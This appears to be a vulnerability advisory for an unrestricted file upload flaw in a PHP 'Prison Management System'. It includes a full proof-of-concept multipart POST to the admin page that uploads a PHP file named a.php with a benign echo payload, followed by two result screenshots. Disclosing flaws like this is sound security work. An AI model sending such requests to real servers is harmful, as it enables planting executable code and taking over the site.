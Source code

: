 1.Prison Management System File Upload

2.Description
The system Client doesn't properly sanitise POST parameter, which result into a File Upload.

3.Vendor Homepage 
https://www.sourcecodester.com/sql/17287/prison-management-system.html

4.Author will@webray.com.cn inc

5.Proof of Concept

(1)The request packet is as follows

POST /prison/Admin/add-admin.php HTTP/1.1

Host: 192.168.67.19

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0

Content-Type: multipart/form-data; boundary=---------------------------122164689239586784784260003750

Cookie: PHPSESSID=m2d2dle30rvjnncs2tdtn9c37e

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Origin: http://192.168.67.19

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Referer: http://192.168.67.19/prison/Admin/add-admin.php

Sec-GPC: 1

Content-Length: 4225


-----------------------------122164689239586784784260003750

Content-Disposition: form-data; name="txtusername"



-----------------------------122164689239586784784260003750

Content-Disposition: form-data; name="txtfullname"



-----------------------------122164689239586784784260003750

Content-Disposition: form-data; name="txtpassword"



-----------------------------122164689239586784784260003750

Content-Disposition: form-data; name="txtphone"



-----------------------------122164689239586784784260003750

Content-Disposition: form-data; name="avatar"; filename="a.php"

Content-Type: image/png


<?php echo('hello');?>

-----------------------------122164689239586784784260003750

Content-Disposition: form-data; name="btncreate"



-----------------------------122164689239586784784260003750--



(2)result

![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/Prison-Management-System1.png)

![image](https://github.com/will121351/wenqin.webray.com.cn/blob/main/img/Prison-Management-System.png)
